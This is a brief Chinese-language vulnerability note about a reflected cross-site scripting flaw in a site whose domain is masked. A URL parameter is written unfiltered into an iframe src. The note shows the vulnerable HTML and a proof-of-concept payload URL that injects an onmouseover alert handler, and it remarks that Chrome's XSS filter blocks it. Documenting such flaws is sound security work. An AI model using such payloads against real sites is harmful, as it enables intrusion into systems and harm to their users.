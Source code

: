 ## 反射型漏洞

直接把URL的输出在iframe的src中，对，没有过滤。这个问题我都不想记了。

```
URL：http://www.xxxxx.net/yun/index.php?m=Index&c=Content&a=index&cid=21&aid=3
```

页面HTML中出现了：

```html
<iframe frameborder="0" id="comment" scrolling="no" style="padding: 0px;margin: 0px;" width="100%"
  src="http://www.xxxxx.net/yun/index.php?g=Addons&m=Comment&c=Comment&mid=1&cid=21&aid=3"></iframe>
```

Payload:

```
URL: http://www.xxxxx.net/yun/index.php?m=Index&c=Content&a=index&mid=1&cid=21aaa&aid=3%22%20onmouseover=%22alert%281%29
```

这个会被`Chrome`的xss过滤器拦截，在其他浏览器下可以。
